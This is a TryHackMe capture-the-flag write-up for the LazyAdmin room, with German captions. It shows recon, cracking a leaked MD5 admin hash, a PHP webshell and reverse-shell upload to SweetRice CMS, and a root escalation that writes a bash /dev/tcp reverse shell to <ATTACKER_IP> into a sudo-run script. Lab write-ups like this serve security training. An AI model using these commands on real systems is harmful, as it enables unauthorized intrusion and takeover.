









# LazyAdmin - TryHackMe Writeup

**Platform:** [TryHackMe - LazyAdmin](https://tryhackme.com/room/lazyadmin)
**Difficulty:** Easy

---

## 1. Recon

```bash
nmap -sC -sV -p- <TARGET_IP>
```

**Findings:**
- Port 22 open → OpenSSH 7.2p2
- Port 80 open → Apache httpd 2.4.18 (Ubuntu Default Page)


*nmap zeigt SSH (22) und Apache 2.4.18 (80) auf dem Target.*

---

## 2. Enumeration

```bash
feroxbuster -u http://<TARGET_IP>/content -w /usr/share/wordlists/dirb/common.txt -t 5 --timeout 10 -s 200,301,302,403
```

Found:
- `/content/as/` (SweetRice CMS)
- `/content/inc/mysql_backup/`
- `mysql_bakup_20191129023059-1.5.1.sql`


*Gefilterte feroxbuster-Ergebnisse: SweetRice-Pfade und das offen gelegte SQL-Backup.*

---

## 3. Initial Access

The SQL backup contained the manager credentials.

```bash
grep -i "manager\|password\|admin\|user" mysql_bakup_20191129023059-1.5.1.sql
```


*Manager-Account und MD5-Hash 42f749ade7f9e195bf475f37a44cafcb im SQL-Dump.*

### Crack the hash

```bash
echo "42f749ade7f9e195bf475f37a44cafcb" > hash.txt
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt
```

Result: `42f749ade7f9e195bf475f37a44cafcb:Password123`


*hashcat -m 0 (MD5) gegen rockyou.txt knackt den Hash zu Password123.*

Login at `http://<TARGET_IP>/content/as/`:

```
User:     manager
Password: Password123
```


*SweetRice-Adminbereich /content/as/, Login mit den extrahierten Credentials.*

---

## 4. Code Execution

Upload functionality available in Media Center. Tested PHP execution:

```php
<?php system("id"); ?>
```

Output: `www-data` → RCE confirmed.

---

## 5. Reverse Shell

**Terminal 1 - Listener:**

```bash
nc -lvnp 4444
```

**Terminal 2 - Prepare shell:**

Save a PHP reverse shell as `.phtml` (set your `<ATTACKER_IP>` and port `4444`).

**Upload:** Media Center → Browse → `shell.phtml` → Done

**Trigger the shell:**

```bash
curl http://<TARGET_IP>/content/attachment/shell.phtml
```

→ Access as `www-data`.


*Reverse Shell vom Target zurueck zum Listener auf <ATTACKER_IP>:4444.*

---

## 6. User Flag

```bash
find / -name user.txt 2>/dev/null
cat /home/itguy/user.txt
```

Flag at: `/home/itguy/user.txt`


*User-Flag aus /home/itguy/user.txt nach pty-Upgrade.*

---

## 7. Privilege Escalation - Enumeration

```bash
sudo -l
```

Output:

```
(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

---

## 8. Analyze the Exploit Path

```bash
cat /home/itguy/backup.pl
```

Content:

```perl
system("sh", "/etc/copy.sh");
```

```bash
ls -l /etc/copy.sh
```

`/etc/copy.sh` is writable by `www-data`.


*sudo -l erlaubt perl-Aufruf von backup.pl, das ein world-writable /etc/copy.sh startet.*

---

## 9. Privilege Escalation

Overwrite the script:

```bash
echo 'bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/4445 0>&1"' > /etc/copy.sh
```

Start listener:

```bash
nc -lvnp 4445
```

Execute as root:

```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```

→ Root shell obtained.

---

## 10. Root Flag

```bash
cat /root/root.txt
```


*Root-Shell auf Listener 4445, root.txt aus /root/root.txt.*

---

## Lessons Learned

- Backup files can leak credentials → always check `/backup/`, `/inc/`, `/db/`
- Weak upload restrictions allow RCE via PHP webshells
- Writable scripts executed via `sudo` are direct escalation paths
- Always check `sudo -l` early
